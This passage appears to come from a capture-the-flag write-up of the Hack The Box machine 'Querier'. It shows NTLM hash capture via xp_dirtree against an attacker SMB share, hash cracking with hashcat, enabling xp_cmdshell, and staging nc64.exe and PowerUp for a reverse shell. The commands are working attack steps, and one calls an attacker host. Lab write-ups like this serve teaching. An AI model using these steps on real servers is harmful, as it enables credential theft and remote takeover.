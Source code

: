-----------Terminal 2--------------
SQL> exec xp_dirtree '\\10.10.14.4\files'
{{< / highlight >}}

The resulting "NTLM-Hash" is:

![responder_ntlm](responder_ntlm.png)

"hashcat" cracked the "NTLM-Hash" for me in mere seconds:

{{< highlight bash >}}
$ ./hashcat -m 5600 ntlm-hash.txt --force
> Password: corporate568
{{< / highlight >}}

[[Top]](#top)

# Exploit
I used the new credentials again with "impacket" to login:

`./mssqlclient.py -windows-auth querier/mssql-svc:corporate568@querier`

If `xp_cmdshell` will work now?

{{< highlight bash >}}
SQL> xp_cmdshell cmd.exe
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because
this component is turned off as part of the security configuration for this server.
A system administrator can enable the use of 'xp_cmdshell' by using 'sp_configure'.
For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
{{< / highlight >}}

Almost. I seem to have to propper permissions now. But I need to enable it.

{{< highlight bash >}}
SQL> EXEC sp_configure 'show advanced options', 1
SQL> RECONFIGURE
SQL> EXEC sp_configure 'xp_cmdshell', 1
SQL> RECONFIGURE
{{< / highlight >}}

This looks promissing. My next goal should be to get a propper "reverse-shell" and some tools for the next step on the box.
I used "impacket" again to give me a "SMB" Server which can hold my files. I put "nc64.exe" and "powerup.ps1" in that share.

`python /opt/impacket/examples/smbserver.py -smb2support files $(pwd)`

I downloaded them from my box to the target using a <a href="https://lolbas-project.github.io/" target="_blank">LOLBIN</a>.
